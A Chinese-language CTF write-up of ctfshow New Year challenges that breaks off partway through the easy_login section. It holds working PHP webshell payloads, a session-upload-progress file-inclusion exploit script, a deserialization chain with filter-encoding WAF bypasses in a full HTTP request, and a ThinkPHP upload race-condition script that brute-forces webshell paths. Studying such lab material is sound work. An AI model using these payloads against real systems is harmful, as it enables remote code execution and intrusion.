+++
title = "ctfshow元旦水友赛"
slug = "ctfshow-new-year-water-friends-match"
description = "有意思的"
date = "2025-01-20T18:53:17"
lastmod = "2025-01-20T18:53:17"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["RaceCondition", "thinkphp"]
+++

## easy_include

```php
<?php

function waf($path){
    $path = str_replace(".","",$path);
    return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
    include "file://".$_POST[1];
}
```

这个waf就是检查路径是否是小写字母开头，直接打session包含，但是路径怎么写呢，这里有个file的协议，后面知道`file:///etc/passwd`其实是和`localhost/etc/passwd`等效的

```python
import requests

url="http://6484c74f-5b47-49fe-a98d-87059cc10ee8.challenge.ctf.show/"
data={
    "PHP_SESSION_UPLOAD_PROGRESS":"<?php @eval($_POST[2]);?>",
    "1":"localhost/tmp/sess_wi",
    # "2":"system('ls /');"
    "2":"system('cat /f*');"
}

file={
    "file":"wi"
}
cookies={
    "PHPSESSID":"wi"
}

response = requests.post(url,data=data,cookies=cookies,files=file)
print(response.text)
```

## easy_web

```php
<?php
header('Content-Type:text/html;charset=utf-8');
error_reporting(0);


function waf1($Chu0){
    foreach ($Chu0 as $name => $value) {
        if(preg_match('/[a-z]/i', $value)){
            exit("waf1");
        }
    }
}

function waf2($Chu0){
    if(preg_match('/show/i', $Chu0))
        exit("waf2");
}

function waf_in_waf_php($a){
    $count = substr_count($a,'base64');
    echo "hinthinthint,base64喔"."<br>";
    if($count!=1){
        return True;
    }
    if (preg_match('/ucs-2|phar|data|input|zip|flag|\%/i',$a)){
        return True;
    }else{
        return false;
    }
}

class ctf{
    public $h1;
    public $h2;

    public function __wakeup(){
        throw new Exception("fastfast");
    }

    public function __destruct()
    {
        $this->h1->nonono($this->h2);
    }
}

class show{

    public function __call($name,$args){
        if(preg_match('/ctf/i',$args[0][0][2])){
            echo "gogogo";
        }
    }
}

class Chu0_write{
    public $chu0;
    public $chu1;
    public $cmd;
    public function __construct(){
        $this->chu0 = 'xiuxiuxiu';
    }

    public function __toString(){
        echo "__toString"."<br>";
        if ($this->chu0===$this->chu1){
            $content='ctfshowshowshowwww'.$_GET['chu0'];
            if (!waf_in_waf_php($_GET['name'])){
                file_put_contents($_GET['name'].".txt",$content);
            }else{
                echo "绕一下吧孩子";
            }
                $tmp = file_get_contents('ctfw.txt');
                echo $tmp."<br>";
                if (!preg_match("/f|l|a|g|x|\*|\?|\[|\]| |\'|\<|\>|\%/i",$_GET['cmd'])){
                    eval($tmp($_GET['cmd']));
                }else{
                    echo "waf!";
                }

            file_put_contents("ctfw.txt","");
        }
        return "Go on";
        }
}


if (!$_GET['show_show.show']){
    echo "开胃小菜，就让我成为签到题叭";
    highlight_file(__FILE__);
}else{
    echo "WAF,启动！";
    waf1($_REQUEST);
    waf2($_SERVER['QUERY_STRING']);
    if (!preg_match('/^[Oa]:[\d]/i',$_GET['show_show.show'])){
        unserialize($_GET['show_show.show']);
    }else{
        echo "被waf啦";
    }

}
```

其实链子并不是很难，因为没有绕弯子的地方，不过我还是有疑问，为啥这里的`__call`能够触发`toString`，不是类被当做是字符串处理才会吗

```php
<?php
class ctf{
    public $h1;
    public $h2;

    public function __destruct()
    {
        $this->h1->nonono($this->h2);
    }
}

class show{

    public function __call($name,$args){
        if(preg_match('/ctf/i',$args[0][0][2])){
            echo "gogogo";
        }
    }
}

class Chu0_write{
    public $chu0;
    public $chu1;
    public $cmd;
    public function __construct(){
        $this->chu0 = 'xiuxiuxiu';
    }

    public function __toString(){
        echo "__toString"."<br>";
    }
}
unserialize($_GET['data']);
```

`$args[0][0][2]` 的解释

- `$args`：这是一个数组，包含了所有传递给未定义方法的参数。
- `$args[0]`：这表示 `$args` 数组的第一个元素（即索引为 `0` 的元素）。假设您在调用方法时传递了一个数组作为第一个参数，`$args[0]` 将会是这个参数。
- `$args[0][0]`：这表示 `$args[0]` 数组的第一个元素（索引为 `0`）。这意味着 `$args[0]` 本身也是一个数组，并且我们正在访问它的第一个元素。
- `$args[0][0][2]`：这表示 `$args[0][0]` 数组的第三个元素（索引为 `2`）。同样，这意味着 `$args[0][0]` 也必须是一个数组，并且我们正在访问它的第三个元素。

然后就可以触发`__toString()`了，原来正则也可以触发

```php
<?php
class ctf{
    public $h1;
    public $h2;
}

class show{
}

class Chu0_write{
}
$a=new ctf();
$b=new Chu0_write();
$c=array('','',$b);
$a->h1=new show();
$a->h2=array($c);
echo serialize($a);
```



同时传`POST`和`GET`其实只会判断`POST`，可以绕过waf1，将`show[show.show`进行编码绕过waf2，C打头绕过wakeup

```php
$a=new ctf();
$b=new Chu0_write();
$c=array('','',$b);
$a->h1=new show();
$a->h2=array($c);
$d=array("evil"=>$a);
$f=new ArrayObject($d);
echo serialize($f);

/*C:11:"ArrayObject":143:{x:i:0;a:1:{s:4:"evil";O:3:"ctf":2:{s:2:"h1";O:4:"show":0:{}s:2:"h2";a:1:{i:0;a:3:{i:0;s:0:"";i:1;s:0:"";i:2;O:10:"Chu0_write":0:{}}}}};m:a:0:{}}}
```

没看懂这个poc，有会的师傅可以评论区讲讲，反正我运行出来的不行，他不能正常的反序列化，引用地址绕过强比较，`cmd`的正则用`chr(ascii)`即可绕过，我们还要往`ctfw.txt`里面去写可利用的函数而且name要出现base64一次并且只能是一次，且有脏字符需要绕过，这里限制成了只有一次编码，所以不能多次编码绕过，利用编码器进行绕过

```php
<?php
$b="baozongwi";
$payload=iconv('utf8','utf-16',base64_encode($b));
echo quoted_printable_encode($payload);
?>
```

将对应字符进行转换

```php
<?php

$b ='assert';

$payload = iconv('utf-8', 'utf-16', base64_encode($b));
file_put_contents('payload.txt', quoted_printable_encode($payload));
$s = file_get_contents('payload.txt');
$s = preg_replace('/=\r\n/', '', $s);
echo $s;
```

```http
POST /?%73%68%6f%77%5b%73%68%6f%77%2e%73%68%6f%77=%43%3a%31%31%3a%22%41%72%72%61%79%4f%62%6a%65%63%74%22%3a%31%39%38%3a%7b%78%3a%69%3a%30%3b%61%3a%31%3a%7b%73%3a%34%3a%22%65%76%69%6c%22%3b%4f%3a%33%3a%22%63%74%66%22%3a%32%3a%7b%73%3a%32%3a%22%68%31%22%3b%4f%3a%34%3a%22%73%68%6f%77%22%3a%30%3a%7b%7d%73%3a%32%3a%22%68%32%22%3b%61%3a%31%3a%7b%69%3a%30%3b%61%3a%33%3a%7b%69%3a%30%3b%73%3a%30%3a%22%22%3b%69%3a%31%3b%73%3a%30%3a%22%22%3b%69%3a%32%3b%4f%3a%31%30%3a%22%43%68%75%30%5f%77%72%69%74%65%22%3a%33%3a%7b%73%3a%34%3a%22%63%68%75%30%22%3b%73%3a%39%3a%22%78%69%75%78%69%75%78%69%75%22%3b%73%3a%34%3a%22%63%68%75%31%22%3b%52%3a%31%31%3b%73%3a%33%3a%22%63%6d%64%22%3b%4e%3b%7d%7d%7d%7d%7d%3b%6d%3a%61%3a%30%3a%7b%7d%7d&name=php://filter/convert.quoted-printable-decode/convert.iconv.utf-16.utf-8/convert.base64-decode/resource=ctfw&chu0=Y=00X=00N=00z=00Z=00X=00J=000=00&cmd=%73%68%6f%77_source(chr(47).chr(102).chr(108).chr(97).chr(103)); HTTP/1.1
Host: 94882916-b6d5-4288-b1d7-b693fc77c829.challenge.ctf.show
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://94882916-b6d5-4288-b1d7-b693fc77c829.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://94882916-b6d5-4288-b1d7-b693fc77c829.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

show%5Bshow.show=1&name=1&chu0=1&cmd=1
```

好复杂的一道题，像musc一样的总结题吧

## 孤注一掷

0DAY，进来是个二维码，扫描拿到源码进行审计，tp5.0，先把源码搞到，然后把applicantion进行替换之后，开始，首先看控制器，里面有个upload.php，多次打比赛的直觉告诉我move出了问题，因为一般move之后都是可以条件竞争的，或者是破坏move的过程，把webshell留下





跟进一下check看看，然后继续跟进`checkImage`



```php
public function checkImg()
    {
        $extension = strtolower(pathinfo($this->getInfo('name'), PATHINFO_EXTENSION));
        /* 对图像文件进行严格检测 */
        if (in_array($extension, ['gif', 'jpg', 'jpeg', 'bmp', 'png', 'swf']) && !in_array($this->getImageType($this->filename), [1, 2, 3, 4, 6])) {
            return false;
        }
        return true;
    }
```

然后你就发现这就是shi，他反正都返回true的，也就是说任意上传文件，那我们看怎么保存文件的，竞争出来即可，跟进`buildSavename`





```php
$md5      = md5_file($this->filename);
$savename = substr($md5, 0, 2) . DS . substr($md5, 2);
```

所以撞就完事了，由于目录不是固定的，所以没用正则来进行

```python
import requests
from datetime import datetime
import subprocess
import pytz
import hashlib
# Author:ctfshow-h1xa
 
url ="http://33c133ae-9f99-4711-afbc-d5e7a3b7ef3e.challenge.ctf.show/"
scriptDate = ""
prefix = ""
 
session = requests.Session()
headers = {'User-Agent': 'Android'}
 
def init():
    route="?url="+url
    session.get(url=url+route,headers=headers)
 
def getPrefix():
    route="index/upload/image"
    file = {"file":("1.php",b"<?php echo 'ctfshow';eval($_POST[1]);?>")}
    response = session.post(url=url+route,files=file,headers=headers)
    response_date = response.headers['date']
    print("正在获取服务器时间：")
    print(response_date)
    date_time_obj = datetime.strptime(response_date, "%a, %d %b %Y %H:%M:%S %Z")
    date_time_obj = date_time_obj.replace(tzinfo=pytz.timezone('GMT'))
    date_time_obj_gmt8 = date_time_obj.astimezone(pytz.timezone('Asia/Shanghai'))
    print("正在转换服务器时间：")
    print(date_time_obj_gmt8)
    year = date_time_obj_gmt8.year
    month = date_time_obj_gmt8.month
    day = date_time_obj_gmt8.day
    hour = date_time_obj_gmt8.hour
    minute = date_time_obj_gmt8.minute
    second = date_time_obj_gmt8.second
    global scriptDate,prefix
    scriptDate = str(year)+str(month).zfill(2)+(str("0"+str(day)) if day<10 else str(day))
    print(scriptDate)
    seconds = int(date_time_obj_gmt8.timestamp())
    print("服务器时间：")
    print(seconds)
    code = f'''php -r "echo mktime({hour},{minute},{second},{month},{day},{year});"'''
    print("脚本时间：")
    result = subprocess.run(code,shell=True, capture_output=True, text=True)
    script_time=int(result.stdout)
    print(script_time)
    if seconds == script_time:
        print("时间碰撞成功，开始爆破毫秒")
        prefix =  seconds
    else:
        print("错误，服务器时间和脚本时间不一致")
        exit()
        
def remove_trailing_zero(num):
    if num % 1 == 0:
        return int(num)
    else:
        str_num = str(num)
        if str_num[-1] == '0':
            return str_num[:-1]
        else:
            return num
 
def checkUrl():
    h = open("url.txt","a")
    global scriptDate
    for i in range(0,10000):
        target = str(prefix)+"."+str(i).zfill(4)
        target=str(remove_trailing_zero(float(target)))
        # target=remove_trailing_zero(target)
        print(target)
        md5 =string_to_md5(target)
        # route = "/uploads/"+target+scriptDate+"/"+md5+".php"
        route = "/uploads/"+scriptDate+"/"+md5+".php"
        print("正在爆破"+url+route)
        response = session.get(url=url+route,headers=headers)
        if response.status_code == 200:
            print("成功getshell，地址为 "+url+route)
            exit()
 
        h.write(route+"\n")
    h.close()
    print("爆破结束")
    return
 
def string_to_md5(string):
    md5_val = hashlib.md5(string.encode('utf8')).hexdigest()
    return md5_val
 
if __name__ == "__main__":
    init()
    getPrefix()
    checkUrl()
```

看着像是西湖竞争的那种感觉

 ## easy_login

0DAY，代码都没多少，看看

[源码](https://gitee.com/ctfshow/easy-login)

### 预期



默认为main路由，紧接着看到上面的`userLogger`类

```php
class userLogger{

    public $username;
    private $password;
    private $filename;

    public function __construct(){
        $this->filename = "log.txt_$this->username-$this->password";
        $data = "最后操作时间：".date("Y-m-d H:i:s")." 用户名 $this->username 密码 $this->password \n";
        $d = file_put_contents($this->filename,$data,FILE_APPEND);
    }
    public function setLogFileName($filename){
        $this->filename = $filename;
    }

    public function __wakeup(){
        $this->filename = "log.txt";
    }
    public function user_register($username,$password){
        $this->username = $username;
        $this->password = $password;
        $data = "操作时间：".date("Y-m-d H:i:s")."用户注册： 用户名 $username 密码 $password\n";
        file_put_contents($this->filename,$data,FILE_APPEND);
    }

    public function user_login($username,$password){
        $this->username = $username;
        $this->password = $password;
        $data = "操作时间：".date("Y-m-d H:i:s")."用户登陆： 用户名 $username 密码 $password\n";
        file_put_contents($this->filename,$data,FILE_APPEND);
    }

    public function user_logout(){
        $data = "操作时间：".date("Y-m-d H:i:s")."用户退出： 用户名 $this->username\n";
        file_put_contents($this->filename,$data,FILE_APPEND);
    }

    // public function __destruct(){
    //     $data = "最后操作时间：".date("Y-m-d H:i:s")." 用户名 $this->username 密码 $this->password \n";
    //     $d = file_put_contents($this->filename,$data,FILE_APPEND);
        
    // }
}
```

参数可控在`__construct()`可以getshell



`session_decode`向session中存对象，`$data = $_SESSION['user'];`中从中取出，很明显的session反序列化，而且在`main.php`中看到了触发的情况



同时还要满足这个条件

